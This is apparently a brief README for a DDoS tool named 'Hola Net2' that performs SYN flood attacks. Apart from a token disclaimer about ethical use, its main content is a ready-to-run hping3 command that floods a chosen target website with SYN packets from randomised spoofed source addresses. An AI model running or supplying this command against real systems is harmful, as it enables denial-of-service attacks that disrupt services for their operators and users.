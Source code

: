 Hola Net2 DDOs ATTACK SYN FLood Oriented :D

DO NOT USE THIS CODE TO ATTACK PEOPLE USE IT ETHICALY !!

A simply way to send a Syn flood too is having Hping3 tool and lunch this Command:
      sudo hping3 --flood --rand-source <your target website>
